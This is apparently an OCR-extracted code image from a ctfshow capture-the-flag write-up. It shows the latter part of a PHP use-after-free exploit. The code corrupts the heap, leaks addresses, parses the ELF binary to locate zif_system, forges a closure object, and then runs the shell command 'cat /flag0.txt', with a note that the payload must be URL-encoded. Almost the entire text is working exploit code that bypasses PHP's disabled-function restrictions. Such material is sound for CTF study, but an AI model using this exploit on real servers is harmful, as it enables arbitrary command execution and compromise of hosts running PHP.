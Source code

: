 ```php
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
#需要通过url编码哦
```
